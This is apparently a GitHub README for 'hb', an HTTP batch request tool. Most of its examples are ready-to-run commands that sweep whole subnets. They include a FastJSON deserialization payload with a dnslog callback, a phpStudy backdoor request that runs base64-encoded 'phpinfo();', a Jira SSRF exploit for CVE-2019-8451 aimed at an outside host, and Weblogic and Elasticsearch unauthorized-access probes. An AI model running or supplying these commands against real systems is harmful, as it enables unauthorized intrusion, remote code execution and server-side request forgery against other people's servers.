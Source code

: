 # hb
> Fast http batch request tool 

## Example 

### Add HTTP Header
```bash
./hb -host 192.168.1.1/24 -H "Host: bypasscdn"
```

### FastJSON Blind
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Content-Type: application/json" -body '{"@type": "java.net.InetAddress", "val":"{hostname}.dnslog"}' -replace -redirect
```

### Weblogic fingerprint
```bash
./hb -host 192.168.1.1/24 -host 127.0.0.1 -p 80,443,7001 -H "Authorization: Basic" -code 401
```

### Elasticsearch Unauthorized
```bash
./hb -host 192.168.1.1/24 -host 127.0.0.1 -p 9200 -path "/_cat" -grep "/_cat/allocation"
```

### phpStudy Backdoor
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Accept-Charset: cGhwaW5mbygpOwo=" -H "Accept-Encoding: gzip,deflate" -regexp '<tr><td class="e">disable_functions</td><td class="v">(.*?)</td>' -redirect
```

### CVE-2019-8451 Jira SSRF
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -path "/plugins/servlet/gadgets/makeRequest?url={{scheme}}://{{host}}@baidu.com/" -H "X-Atlassian-Token: no-check" -replace -grep "www.baidu.com" -regexp '<meta name="ajs-version-number" content="(.*?)">' -redirect
```


